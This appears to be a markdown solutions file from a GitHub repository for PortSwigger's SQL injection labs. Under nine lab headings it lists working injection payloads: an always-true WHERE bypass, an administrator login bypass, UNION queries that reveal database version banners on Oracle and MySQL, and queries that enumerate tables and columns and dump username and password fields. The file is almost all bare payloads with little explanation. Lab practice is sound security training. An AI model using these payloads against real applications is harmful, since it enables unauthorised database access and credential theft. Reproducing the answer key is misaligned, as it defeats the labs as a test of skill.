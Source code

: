 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab6: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab7: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
### Lab8: SQL injection UNION attack, finding a column containing text
```sh
'+UNION+SELECT+NULL,'a',NULL--
```
```sh
'+UNION+SELECT+NULL,'273Yf9bW',NULL--
```
### Lab9: SQL injection UNION attack, retrieving data from other tables
```sh
'+UNION+SELECT+null,null--
```
```sh
'+UNION+SELECT+null,table_name+from+information_schema.tables--
```
```sh
'+UNION+SELECT+column_name,table_name+from+information_schema.columns+where+table_name='users'--
```
```sh
'+UNION+SELECT+user,password+from+user--
```














